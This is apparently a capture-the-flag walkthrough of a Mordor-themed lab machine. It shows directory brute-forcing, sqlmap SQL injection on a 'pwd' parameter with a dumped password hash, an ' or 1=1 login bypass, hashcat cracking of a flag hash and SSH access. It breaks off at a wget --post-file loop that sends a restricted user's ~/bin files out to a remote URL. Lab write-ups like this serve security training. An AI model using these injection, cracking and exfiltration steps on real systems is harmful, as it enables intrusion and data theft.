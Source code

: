 ```
gate. The gate opens and all sentinels and soldiers observe the entire area. flag{bc6fd79cd1fa7ebbcd420cb45434d9a2b4d921a5} 
```

nothing fancy in the source code ...  
then found `http://10.0.1.9/blackgate/admin/` with dirb  
test it with `sqlmap` and indicate param `pwd` is vuln to sqli
```bash
Database: mordor
Table: blackgate
[1 entry]
+---------+----------+------------------------------------------+
| user_id | username | password                                 |
+---------+----------+------------------------------------------+
| 1       | Azog     | 26f736aacd60fb538e72f1307f1e4bb1322b02bc |
+---------+----------+------------------------------------------+
```

try to login with `Azog:' or 1=1 -- #` as user/pass and found a clue in the cookie
```
You+found+a+way+to+bypass+the+black+gate.+A+small+hole+in+the+rocks+gives+you+an+entrance+to+mordor.
+During+the+walk+yo+find+a+piece+of+paper.+On+the+paper+ther+are+a+hint%2C+there+orcs+on+the+other+side.
+The+last+line+looks+like+a+key+%5C%22orc+%2B+flag+%3D+t22.%5C%22
```
decode the clue
```
You found a way to bypass the black gate. A small hole in the rocks gives you an entrance to mordor.
During the walk yo find a piece of paper. On the paper ther are a hint, there orcs on the other side.
The last line looks like a key "orc + flag = t22."
```
i'am stuck from here, but after re-read the clue it's obvious the username is `orc` and the<br>
password is from the last flag. i try to crack it with  wordlist such as `rockyou.txt` <br>
but none of them is correct. then i try to crack the flag with hashcat<br>
```bash
$ hashcat -a 3  -m 100 hash '?l?l?l?l?l?l?l?l' --force
...snip...
bc6fd79cd1fa7ebbcd420cb45434d9a2b4d921a5:disquise
[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => q
```

access ssh using `orc` as username and `disquise` as password

## 2. Another Puzzle & Escalate to root
user `orc` have rbash as default shell. it restricted all program except program inside ~/bin directory.

exfiltrate file in `~/bin` directory
```bash
orc@mordor:~$ ls bin | while read line; do
> export URL=	
> export LFILE=./bin/$line
> wget --post-file=$LFILE $URL
> done
```
